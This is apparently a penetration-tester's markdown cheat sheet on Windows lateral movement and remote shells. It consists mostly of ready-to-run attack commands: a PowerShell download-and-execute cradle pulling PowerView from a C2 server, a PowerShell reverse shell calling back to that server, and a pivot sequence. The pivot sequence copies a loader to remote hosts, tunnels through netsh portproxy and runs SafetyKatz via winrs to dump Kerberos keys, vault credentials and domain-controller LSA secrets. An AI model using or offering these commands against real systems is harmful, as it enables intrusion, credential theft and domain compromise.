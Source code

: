 ```yaml
---
layout: post
title: move / rshell
category: 05-move
parent: cheatsheets
modified_date: 2024-11-28
permalink: /move/rshell
---
```


**Menu**
<!-- vscode-markdown-toc -->
* [load](#load)
	* [load-c2agent](#load-c2agent)
	* [load-powersploit](#load-powersploit)
	* [load-rshell](#load-rshell)
	* [load-rubeus](#load-rubeus)
* [run](#run)
	* [evasion-amsi](#evasion-amsi)
	* [privesc](#privesc)
	* [discov-ad-iter](#discov-ad-iter)
	* [creds-dump](#creds-dump)
* [pivot](#pivot)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

[](assets/images/pen-ta0007-discov-t1046-scan-net-svc.png)

## <a name='load'></a>load

### <a name='load-c2agent'></a>load-c2agent

* [havoc-framework](https://havocframework.com/docs/welcome)

### <a name='load-powersploit'></a>load-powersploit
* [discov/ad#load-powersploit](/discov/ad#load-powersploit)
```sh
iex ($zc2srv_ip="")
iex ((New-Object Net.WebClient).DownloadString("http://${zc2srv_ip}/PowerView.ps1"))
```

### <a name='load-rshell'></a>load-rshell
* [samratashok/nishang](https://github.com/samratashok/nishang/tree/master/Shells)
* [shell-storm](https://shell-storm.org/shellcode/index.html)

```sh
# python
python -c 'import pty; pty.spawn("/bin/bash")'

# powershell
powershell.exe iex (iwr http://${zc2srv_ip}/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress ${zc2srv_ip} -Port 443
```

### <a name='load-rubeus'></a>load-rubeus
* [creds/krb#load-rubeus](/creds/krb#load-rubeus)

## <a name='run'></a>run

### <a name='evasion-amsi'></a>evasion-amsi

* [evasion/win#amsi](/evasion/win#amsi)

### <a name='privesc'></a>privesc

* [privesc/win#load-privescCheck](/privesc/win#load-privescCheck)
* [privesc/win#load-powerup](/privesc/win#load-powerup)

### <a name='discov-ad-iter'></a>discov-ad-iter

* [discov/ad#run-shadowhound](/discov/ad#run-shadowhound)
* [discov/ad#run-sharphound](/discov/ad#run-sharphound)
* [discov/ad#iter](/discov/ad#iter)

### <a name='creds-dump'></a>creds-dump

* [creds/krb](/creds/krb)

## <a name='pivot'></a>pivot

```sh
$zpayload=""
# ztarg_computer : download zpayload from zc2srv  
iex ($zpayload="Loader.exe") #dinvoke
iex ($zpayload="PowerUp.ps1")
iwr http://${zc2srv_ip}/${zpayload} -OutFile C:\User\Public\${zpayload}

# $ztarg_nexthop_name=""
echo Y | xcopy C:\Users\Public\${zpayload} \\${ztarg_nexthop_name}\C$\Users\Public\${zpayload}
$null | winrs -r:${ztarg_nexthop_name} "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=${zc2srv_ip}"
$null | winrs -r:${ztarg_nexthop_name} "cmd /c C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::evasive-keys exit"
$null | winrs -r:${ztarg_nexthop_name} 'cmd /c C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe "token::elevate" "vault::cred /patch" "exit"' 

# $ztarg_computer_name=""
echo Y | xcopy C:\Users\Public\${zpayload} \\${ztarg_computer_name}\C$\Users\Public\${zpayload}
$null | winrs -r:${ztarg_computer_name} "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=${zc2srv_ip}"
$null | winrs -r:${ztarg_computer_name} "cmd /c C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::evasive-keys exit"
$null | winrs -r:${ztarg_computer_name} 'cmd /c C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe "token::elevate" "vault::cred /patch" "exit"' 

# $ztarg_ccomputer_name IS a DC
$null | winrs -r:${ztarg_computer_name} 'cmd /c C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe "lsadump::evasive-lsa /patch" "exit"' 
```
